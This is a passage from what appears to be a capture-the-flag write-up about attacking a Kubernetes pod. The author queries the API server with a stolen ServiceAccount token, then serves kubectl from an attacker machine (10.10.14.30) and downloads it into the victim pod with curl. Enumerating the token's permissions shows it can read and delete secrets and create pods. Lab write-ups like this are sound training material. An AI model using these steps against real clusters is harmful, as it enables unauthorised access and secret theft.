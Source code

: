 Now for simplicity, we download `kubectl` on the attacker machine, run a python webserver to download it from the victim pod.

```
curl -skH "Authorization: Bearer $toktok" https://10.43.0.1/version
{
  "major": "1",
  "minor": "23",
  "gitVersion": "v1.23.8+k3s1",
  "gitCommit": "53f2d4e7d80c09a7db1858e3f4e7ddfa13256c45",
  "gitTreeState": "clean",
  "buildDate": "2022-06-27T21:48:01Z",
  "goVersion": "go1.17.5",
  "compiler": "gc",
  "platform": "linux/amd64"
}

$ wget https://s3.us-west-2.amazonaws.com/amazon-eks/1.22.6/2022-03-09/bin/linux/amd64/kubectl
$ python -m http.server 8080

$ curl -o kubectl http://10.10.14.30:8080/kubectl
```

Great, we are all setup to explore what our ServiceAccount token can do.

```
bash-4.4$ ./kubectl auth can-i --list
./kubectl auth can-i --list
Resources                                       Non-Resource URLs                     Resource Names   Verbs
pods/attach                                     []                                    []               [create]
selfsubjectaccessreviews.authorization.k8s.io   []                                    []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                    []               [create]
secrets                                         []                                    []               [get create delete]
pods                                            []                                    []               [get list watch create update patch delete]
                                                [/.well-known/openid-configuration]   []               [get]
                                                [/api/*]                              []               [get]
                                                [/api]                                []               [get]
                                                [/apis/*]                             []               [get]
                                                [/apis]                               []               [get]
                                                [/healthz]                            []               [get]
                                                [/healthz]                            []               [get]
                                                [/livez]                              []               [get]
                                                [/livez]                              []               [get]
                                                [/openapi/*]                          []               [get]
                                                [/openapi]                            []               [get]
                                                [/openid/v1/jwks]                     []               [get]
```